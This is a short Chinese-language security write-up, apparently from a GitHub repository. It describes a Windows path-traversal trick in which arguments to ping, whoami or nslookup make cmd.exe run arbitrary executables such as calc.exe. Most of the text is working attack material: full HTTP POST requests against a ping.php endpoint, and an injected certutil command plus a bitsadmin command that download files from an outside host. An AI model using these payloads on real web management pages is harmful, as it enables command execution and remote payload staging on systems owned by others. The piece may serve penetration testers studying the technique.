









## 利用方式
```shell
cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../../../../windows/system32/calc.exe"
```


当然也不知ping命令还有一些也可以，例如下列

```shell
cmd.exe /c "whoami 127.0.0.1/../../../../../../../../../../../../../../../windows/system32/calc.exe" 
cmd.exe /c "nslookup 127.0.0.1/../../../../../../../../../../../../../../../windows/system32/calc.exe"
```



## 可能的使用场景
### 一些基于windows 系统的设备 web管理页面
**我们经常遇到一些基于Windows系统的设备，在其管理页面上具备ping功能，其目的是为了进行连通性测试或者资产发现等等。当然一些网站可能也有类似的功能。由于开发者安全意识的提高，以及SDL的推广落地，直接进行OS Command Injection的可能性非常低。利用这个方法解和上传漏洞（如果存在的话可以执行任何代码）**

windows 客户端测试不通过，在windows server 2012 测试如下
```http
POST /ping.php HTTP/1.1
Host: 192.168.93.143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

ipaddress=127.0.0.1/../../../../../../../windows/system32/ipconfig.exe
```



### 远程下载文件
这个比较鸡肋，由于路径穿越执行命令是无法带参数，带参数就会报错



但是在第第一个命令后带上&，两个命令一起执行，那么就能执行成功后面的命令



在这里将上面代码的`escapeshellcmd`函数去掉，添加%26，执行文件下载的命令

```http
POST /ping.php HTTP/1.1
Host: 192.168.93.143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

ipaddress=127.0.0.1/../../../../../../../windows/system32/calc%26certutil.exe /urlcache /split /f http://192.168.200.76:8080/test.txt C:\\test.txt
```






```shell
bitsadmin /transfer /myDownload /download /priority normal "http://192.168.200.76:8888/test.txt" c:\22.txt
```






